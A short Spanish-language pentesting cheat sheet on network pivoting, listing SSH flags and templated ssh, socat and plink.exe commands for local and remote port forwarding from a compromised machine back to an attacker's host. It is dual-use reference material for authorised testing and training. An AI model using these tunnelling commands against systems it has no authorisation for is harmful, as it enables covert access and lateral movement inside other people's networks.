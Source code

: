 ```yaml
---
layout: post
title: Pivoting - CheetSheat
tags: [CheetSheat,Linux]
description: "Pivoting - CheetSheat"
---
```



| argumento | descripción                            |
|-----------|----------------------------------------|
| -fN       | poner en 2do plano                     |
| -L        | reenvío de puerto local                |
| -i        | especificar archivo para autenticación |
| -R        | reenvío de puerto remoto               |

## Local PortForwarding

```
ssh -L <port_attack>:<ip_attack>:<target_port> <user_target>@<target_ip> -fN
socat tcp-l:<port_attack>,fork,reuseaddr tcp:<target_ip>:<target_port> & (en la maquina comprometida)
```

## Remote PortForwarding

```
ssh -R <port_local>:<target_ip>:<target_port> <user_attack>@<ip_attack> -i id_rsa -fN
cmd.exe /c echo y | .\plink.exe -R <local_port>:<target_ip>:<target_port> <user_attack>@<ip_attack> -i <KEYFILE> -N
```

## Resumen:

**SSH** se puede utilizar para crear tanto reenvíos de puerto como proxies.  
**plink.exe** es un cliente SSH para Windows, que le permite crear conexiones SSH inversas en Windows.  
**Socat** es una buena opción para redirigir conexiones y se puede utilizar para crear reenvíos de puertos de diversas formas.
**Chisel** puede hacer exactamente lo mismo que con el reenvío/tunelización de puertos `SSH`, pero no requiere acceso SSH en la caja.  
**sshuttle** es una forma más agradable de crear un proxy cuando tenemos acceso SSH en un objetivo.  
**Proxychains y FoxyProxy** se utilizan para acceder a un proxy creado con una de las otras herramientas.  
